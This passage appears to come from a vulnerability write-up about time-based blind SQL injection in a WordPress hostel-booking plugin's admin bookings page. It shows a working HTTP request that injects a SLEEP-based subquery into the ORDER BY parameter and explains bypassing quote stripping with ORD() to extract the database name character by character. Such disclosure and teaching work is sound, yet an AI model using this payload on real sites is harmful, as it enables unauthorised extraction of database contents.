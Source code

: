 We separate the `ORDER BY` clause with a comma because it accepts **multi-column** values.

![time response](time_response.png "Detecting SQLi")

Result: the response time is delayed → SQL Injection succeeded.

### Dumping Data from the Database

**Bypass `'` using ORD()**:

To dump database data we need to extract characters such as the first character of the **database name**.

Because `sanitize_text_field()` removes single quotes (`'`), we cannot use payloads relying on `'`. Instead, use `ORD()` to compare character ASCII codes:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(ORD(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Bypass succeeds → we can extract the database name.

![ORD bypass](ord_bypass.png "Dumping Data from the Database")

**Bypass `'` using Hex encoding (alternative)**
